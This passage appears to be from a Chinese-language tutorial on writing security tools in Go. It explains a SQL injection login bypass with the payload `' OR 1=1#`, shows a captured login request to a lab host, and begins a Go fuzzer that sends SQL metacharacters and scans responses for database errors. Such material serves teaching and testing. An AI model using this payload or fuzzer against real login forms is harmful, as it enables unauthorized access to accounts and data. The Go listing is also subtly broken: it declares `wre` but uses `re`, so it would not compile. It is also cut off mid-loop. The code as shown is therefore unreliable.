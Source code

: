 尽管我们不会太深入地研究，但是现在可以操纵用户名输入来生成有效的SQL查询，该查询将绕过示例中的身份验证。输入 `' OR 1=1#`的用户名，恰好位于下面的SQL语句中：

```sql
SELECT * FROM users WHERE user = '' OR 1=1#'
```

该输入在查询的末尾附加了逻辑 `OR`。该 `OR` 语句总是为真，因为1总是等于1。然后使用MySQL的注释（\#）强制后端数据库忽略剩余的查询。这是有效的SQL语句。假设数据库中存在一行或多行数据，就可以绕过前面伪代码中的身份验证。

#### 构建SQL注入混淆器

混淆器的目的不是生成符合语法的SQL语句。恰恰相反，需要中断查询，以使语法错误的语句在后端数据库中产生错误，如O’Doyle的示例所示。为此，将发送各种SQL元字符作为输入。

首先要做的是分析目标请求。通过检查HTML源代码，使用拦截代理或使用Wireshark捕获网络数据包，可以确定为登录门户提交的HTTP请求类似于以下内容：

```markup
POST /WebApplication/login.jsp HTTP/1.1
Host: 10.0.1.20:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:54.0) Gecko/20100101 Firefox/54.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Referer: http://10.0.1.20:8080/WebApplication/ Cookie: JSESSIONID=2D55A87C06A11AAE732A601FCB9DE571 Connection: keep-alive
Upgrade-Insecure-Requests: 1
username=someuser&password=somepass
```

登录表单将POST请求发送到 `http://10.0.1.20:8080/WebApplication/login.jsp`。有两个表单参数： `username` 和 `password` 。在本例中，为简洁起见，我们将混淆限制在 `username` 字段。 代码本身非常紧凑，包含几个循环，正则表达式以及创建HTTP请求。如清单9-2所示。

```go
func main() {
    payloads := []string{
        "baseline", ")",
        "(",
        "\"",
        "'", 
    }
    sqlErrors := []string{ 
        "SQL",
        "MySQL", 
        "ORA-", 
        "syntax",
    }
    errRegexes := []*regexp.Regexp{} 
    for _, e := range sqlErrors {
        wre := regexp.MustCompile(fmt.Sprintf(".*%s.*", e)) 
        errRegexes = append(errRegexes, re)
    }
    for _, payload := range payloads { 
        client := new(http.Client)
        body := []byte(fmt.Sprintf("username=%s&password=p", payload)) 
        req, err := http.NewRequest(
            "POST", 
            "http://10.0.1.20:8080/WebApplication/login.jsp", 
            bytes.NewReader(body),
        )
        if err != nil {
            log.Fatalf("[!] Unable to generate request: %s\n", err) 
        }
        req.Header.Add("Content-Type", "application/x-www-form-urlencoded") 
        resp, err := client.Do(req)
        if err != nil {
            log.Fatalf("[!] Unable to process response: %s\n", err) 
        }
```